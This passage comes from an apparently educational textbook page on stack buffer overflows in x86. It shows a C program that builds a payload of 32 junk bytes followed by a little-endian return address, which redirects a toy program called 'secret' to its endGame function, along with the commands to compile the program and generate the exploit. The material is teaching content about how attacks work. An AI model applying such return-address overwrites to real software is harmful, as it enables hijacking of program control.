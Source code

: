 ::: title
Figure 4. A sample string that can force secret to execute the endGame
function
:::
:::

::: paragraph
Again, since x86 is a [little
endian](../C4-Binary/byte_order.html#_integer_byte_order){.page} system
in which the stack grows toward lower addresses, the bytes in the return
address appear to be in reverse order.
:::

::: paragraph
The following program illustrates how an attacker could construct the
preceding exploit:
:::

::: listingblock
::: content
``` {.highlightjs .highlight}
#include <stdio.h>

char ebuff[]=
"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x30" /*first 10 bytes of junk*/
"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x30" /*next 10 bytes of junk*/
"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x30" /*following 10 bytes of junk*/
"\x31\x32" /*last 2 bytes of junk*/
"\x64\x85\x04\x08" /*address of endGame (little endian)*/
;

int main(void) {
    int i;
    for (i = 0; i < sizeof(ebuff); i++) { /*print each character*/
        printf("%c", ebuff[i]);
    }
    return 0;
}
```
:::
:::

::: paragraph
The `\x` before each number indicates that the number is formatted as
the hexadecimal representation of a character. After defining `ebuff[]`,
the `main` function simply prints it out, character by character. To get
the associated byte string, compile and run this program as follows:
:::

::: listingblock
::: content
    $ gcc -o genEx genEx.c
    $ ./genEx > exploit
:::
:::
